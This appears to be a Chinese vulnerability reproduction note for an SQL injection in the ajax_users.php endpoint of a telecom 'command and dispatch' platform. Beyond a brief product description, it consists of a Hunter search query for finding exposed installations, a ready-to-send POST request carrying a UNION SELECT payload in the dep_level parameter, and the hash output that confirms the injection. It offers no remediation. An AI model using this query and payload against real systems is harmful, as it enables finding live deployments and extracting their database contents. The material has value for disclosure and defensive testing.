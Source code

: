 # 指挥调度平台ajax_users存在SQL注入漏洞

# 一、漏洞简介
<font style="color:rgb(51, 51, 51);">指挥调度管理平台是一个专业针对通信行业的管理平台。该产品旨在提供高效的指挥调度和管理解决方案，以帮助通信运营商或相关机构实现更好的运营效率和服务质量。该平台提供强大的指挥调度功能，可以实时监控和管理通信网络设备、维护人员和工作任务等。用户可以通过该平台发送指令、调度人员、分配任务。</font>指挥调度平台ajax_users存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ 指挥调度平台

# 三、资产测绘
+ hunter`web.body="app/structure/departments.php"`
+ 特征

![1701096622884-9c34ec74-7f59-464c-b435-5a6ccd465c74.png](./img/bIUf__mIbiystGtX/1701096622884-9c34ec74-7f59-464c-b435-5a6ccd465c74-579205.png)

# 四、漏洞复现
```http
POST /app/ext/ajax_users.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
 
dep_level=1') UNION ALL SELECT NULL,CONCAT(0x7e,md5(123456),0x7e),NULL,NULL,NULL-- -
```

![1715267670568-c3055dcd-a14d-4de9-bdf2-231701685779.png](./img/bIUf__mIbiystGtX/1715267670568-c3055dcd-a14d-4de9-bdf2-231701685779-804715.png)

```http
e10adc3949ba59abbe56e057f20f883
```





> 更新: 2024-05-10 15:30:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qmfywxxk17pr7xs3>